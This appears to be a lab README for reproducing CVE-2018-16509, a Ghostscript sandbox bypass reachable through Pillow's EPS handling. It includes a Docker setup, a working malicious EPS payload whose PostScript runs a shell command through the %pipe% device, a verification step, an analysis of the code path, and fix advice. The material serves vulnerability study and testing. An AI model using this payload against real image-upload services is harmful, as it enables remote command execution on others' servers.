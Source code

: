 # Python PIL/Pillow Remote Command Execution Vulnerability (CVE-2018-16509)

[中文文档](README.zh-cn.md)

PIL/Pillow is a widely used image processing library in Python.

In Ghostscript versions prior to 9.24, there exists a -dSAFER sandbox bypass vulnerability (CVE-2018-16509). Incorrect "restoration of privilege" checking during handling of /invalidaccess exceptions could be used by attackers able to supply crafted PostScript to execute code using the "pipe" instruction.

This vulnerability affects various applications that use Ghostscript for image processing, including Python's PIL/Pillow library. When an application uses PIL/Pillow to process user-uploaded images and the environment has a vulnerable version of Ghostscript installed, it may lead to remote command execution.

References:

- [Ghostscript: -dSAFER bypass (CVE-2018-16509)](https://seclists.org/oss-sec/2018/q3/142)
- [PIL/Pillow EPS Image Processing](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/EpsImagePlugin.py)
- [Ghostscript Sandbox Bypass Analysis](https://paper.seebug.org/1159/)

## Environment Setup

Execute the following command to start a vulnerable Flask application (using Ghostscript 9.23):

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8000` to see a simple image upload page.

## Vulnerability Reproduction

Prepare a malicious EPS file (provided as `rce.jpg` in this environment) with the following content:

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

Visit `http://your-ip:8000` and upload this file.

After uploading, the server will process this image using PIL/Pillow, and when the `resize` function is called, it will trigger the vulnerability and execute the `touch /tmp/got_rce` command.

Execute the following command to verify if the vulnerability has been successfully exploited:

```
docker compose exec web ls -la /tmp/
```

If you see the `/tmp/got_rce` file, it means the command execution was successful.

## Vulnerability Analysis

The core of the vulnerability lies in PIL/Pillow calling the system's Ghostscript program when processing EPS images. In `EPSImagePlugin.py`, PIL uses `subprocess` to call Ghostscript:

```python
command = ["gs",
           "-q",                         # quiet mode
           "-g%dx%d" % size,             # set output geometry (pixels)
           "-r%fx%f" % res,              # set input DPI (dots per inch)
           "-dBATCH",                    # exit after processing
           "-dNOPAUSE",                  # don't pause between pages
           "-dSAFER",                    # safe mode
           "-sDEVICE=ppmraw",            # ppm driver
           "-sOutputFile=%s" % outfile,  # output file
           "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                         # adjust for image origin
           "-f", infile,                 # input file
           "-c", "showpage",             # showpage
           ]
```

Although the `-dSAFER` parameter is used, Ghostscript versions prior to 9.24 have a sandbox bypass vulnerability that allows attackers to execute arbitrary commands through specially crafted PostScript code.

In the sample application, when an image is uploaded, it is processed as follows:

```python
img = Image.open(img_path)
w, h = img.size
ratio = 256.0 / max(w, h)

resized_img = img.resize((int(w * ratio), int(h * ratio)))
resized_img.save(img_path)
```

Simply calling `Image.open()` will not trigger the vulnerability, but when methods that actually need to load image data, such as `resize()` or `save()`, are called, they will trigger the Ghostscript call and execute malicious commands.

To fix this vulnerability, you need to update Ghostscript to version 9.24 or higher, or disable EPS image processing functionality when using PIL/Pillow to process user-uploaded images.
